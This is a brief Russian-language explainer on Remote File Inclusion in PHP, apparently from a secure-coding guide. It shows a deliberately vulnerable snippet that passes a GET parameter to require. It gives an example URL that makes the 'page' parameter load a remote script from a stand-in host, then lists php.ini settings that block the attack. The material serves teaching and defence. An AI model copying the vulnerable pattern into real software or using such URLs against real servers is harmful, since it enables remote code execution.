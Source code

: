 # Remote file inclusion

Remote file inclusion (RFI) - уязвимость, при которой злоумышленник может подключить удаленный скрипт.


### Пример

```php
$page = $_GET['page'] ?? 'home'

require $page . '.php';
```
В приведенном примере параметр `page` может указывать на внешний скрипт, например,
`http://yourdomain.tld/index.php?page=http://example.com/evilscript`

### Защита

Отключите следующие директивы в php.ini:

```ini
; Disable including remote files
allow_url_fopen = off
; Disable opening remote files for include(), require(), include_once() and require_once() functions.
; If above allow_url_fopen is disabled, allow_url_include is also disabled.
allow_url_include = off
```



